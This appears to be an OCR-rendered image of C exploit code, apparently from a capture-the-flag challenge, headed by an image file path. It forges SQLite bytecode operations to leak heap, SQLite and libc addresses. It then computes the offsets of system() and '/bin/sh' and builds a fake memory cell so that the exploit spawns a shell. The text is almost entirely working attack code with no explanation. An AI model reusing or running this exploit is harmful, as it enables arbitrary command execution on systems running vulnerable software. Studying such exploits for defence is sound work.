 ```c
  Op *fake_op4 = buf + 0x80; // for executing system("/bin/sh")
  memcpy(dummy, "/bin/sh\x00", 8);
  char *fake_memorycell = dummy + 8;
  memcpy(dummy + 8, &dummy, 8);
  memcpy(dummy + 16, "\xff\xff\xff\xff", 4);
  short flags = MEM_Dyn;
  memcpy(dummy + 20, &flags, 2);
  short remindar = 0;
  memcpy(dummy + 22, &remindar, 2);
  dummy += 0x18;

  memcpy(dummy, "dummy!!\x00", 8);

  // 1. leak heap address
  Op3(cur++, OP_IntCopy, 2, RHEAP, 1);

  // create leak libc address Ops
  Op4(cur++, OP_String, 0x10, 1, 0, fake_op2, P4_STATIC);
  Op2(cur++, OP_Pack, RHEAP, 2);
  Op3(cur++, OP_Concat, 2, 1, 13);
  Op4(cur++, OP_String, 0x800, 1, 0, fake_op2 + 1, P4_STATIC);
  Op3(cur++, OP_Concat, 1, 13, 0);

  Op2(cur++, OP_Goto, 0, 260); // jump to fake op2

  // leak sqlite's lib address
  // values is dummy ( to be overwritten above)
  cur = fake_op2;
  Op4(cur++, OP_Int64, 0, RSQLITE, 0, (u8 *)&value, P4_INT64);
  Op2(cur++, OP_AddImm, RSQLITE, -0x104a80);
  // GOT(getenv)
  Op2(cur++, OP_IntCopy, RSQLITE, 1);
  Op2(cur++, OP_AddImm, 1, 1060864);

  Op2(cur++, OP_Pack, 1, 2);
  Op4(cur++, OP_String, 0x18, 1, 0, (u64)fake_op3 - 0x8, P4_STATIC);
  Op3(cur++, OP_Concat, 2, 1, 13);
  Op4(cur++, OP_String, 0x900, 1, 0, fake_op3 + 1, P4_STATIC);
  Op3(cur++, OP_Concat, 1, 13, 0);

  Op2(cur++, OP_Goto, 0, 349); // jump to fake op3

  // leak libc's address
  cur = fake_op3;
  Op4(cur++, OP_Int64, 0, RLIBC, 0, (u8 *)&value, P4_INT64);
  Op2(cur++, OP_AddImm, RLIBC, -296864);

  int base = 0x26aa0;
  int system_offset = 0x58740;
  int binsh_offset = 0x1b75aa;
  // u (dummy)
  Op4(cur++, OP_String, 72, 9, 0, dummy, P4_STATIC);

  Op4(cur++, OP_String, 0x10 + 8 /* db */ + 4 /* szMalloc */ + 4 /* uTemp */ + 8 /* zMalloc */, 1, 0, (u64)fake_memorycell, P4_STATIC);
  Op3(cur++, OP_Concat, 1, 9, 9);

  Op2(cur++, OP_IntCopy, RLIBC, 1);
  Op2(cur++, OP_AddImm, 1, system_offset);
  Op2(cur++, OP_Pack, 1, 13);
  Op3(cur++, OP_Concat, 13, 9, 9);

  Op4(cur++, OP_String, 0x900, 1, 0, dummy, P4_STATIC);
```